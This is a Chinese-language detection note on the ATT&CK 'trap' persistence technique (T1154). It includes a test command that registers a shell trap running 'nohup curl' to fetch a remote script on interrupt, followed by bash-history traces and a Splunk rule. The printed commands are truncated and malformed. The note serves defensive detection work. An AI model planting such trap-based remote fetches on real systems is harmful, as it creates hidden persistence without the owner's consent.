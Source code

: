 # T1154-linux-trap

## 来自ATT&CK的描述

该`trap`命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如`ctrl+c`和`ctrl+d`。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。陷阱命令具有以下格式`trap 'command list' signals`，其中当接收到“信号”时将执行“命令列表”。

## 测试案例

```bash
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh # 脚本即使在退出后（ctrl + c）也会继续执行程序/脚本。

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh
```

关于trap、nohup命令的更多解释，你可以查看参考链接部分。

## 检测日志

bash历史命令

## 测试复现

```bash
icbc@icbc:/$ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

> ^C
```

## 测试留痕

```bash
icbc@icbc:/$ history

 693  trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

```

## 检测规则/思路

### splunk规则

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1154

<https://attack.mitre.org/techniques/T1154/>

linux下trap命令详解

<https://blog.csdn.net/carolzhang8406/article/details/46504415/>

linux下nohup命令浅析

<https://www.bbsmax.com/A/kjdw9606JN/>
